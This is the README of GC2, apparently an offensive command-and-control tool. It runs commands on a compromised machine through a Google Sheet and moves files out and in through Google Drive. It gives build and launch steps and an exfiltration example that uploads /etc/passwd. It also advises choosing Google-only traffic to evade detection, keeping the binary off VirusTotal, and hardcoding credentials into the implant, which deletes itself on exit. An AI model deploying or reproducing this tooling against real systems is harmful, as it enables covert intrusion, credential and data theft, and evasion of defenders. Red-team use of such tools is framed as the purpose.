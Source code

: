 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

PS: Please don't upload the compiled binary on VirusTotal :)   

# Set up

1. **Build executable**
 
    ```bash
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Start the C2**

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)
